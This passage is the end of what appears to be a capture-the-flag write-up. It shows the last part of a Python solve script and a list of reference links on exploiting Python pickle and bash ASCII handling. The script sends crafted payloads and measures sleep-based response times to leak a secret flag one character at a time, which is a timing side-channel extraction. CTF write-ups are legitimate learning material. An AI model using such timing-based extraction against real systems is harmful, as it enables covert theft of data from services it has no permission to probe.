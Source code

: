 ``` {.python language="Python"}
        code = f.read()
    print(f"script : {code.decode()}")
    flag_len = int(send_code(code))
    print(f"flag_len: {flag_len}")
    return (flag_len)

flag_len = get_flag_len()

flag = ""
for i in range(1, flag_len + 1):
    code = sleep_ascii_offset(i, 33)
    print(f"script : {code.decode()}")
    runtime = send_code(code)
    flag += chr(int(runtime + 33))
    print(f"cur flag: {flag}")

print(f"finished flag: {flag}")
```

# Useful Links

-   [Basics of lib pickle from a programmer
    view](https://www.geeksforgeeks.org/understanding-python-pickling-example/)

-   [Exploiting Python
    pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

-   [Bash Script to Get ASCII Values for a
    Character](https://www.baeldung.com/linux/shell-ascii-value-character)

-   [Indexing a string in
    bash](https://unix.stackexchange.com/questions/303960/index-a-string-in-bash)

-   [Int to ASCII-char in
    Bash](https://stackoverflow.com/questions/890262/integer-ascii-value-to-character-in-bash-using-printf)

-   [My Github repo of this
    challenge](https://github.com/FabianRapp/CTF_web_jarred)
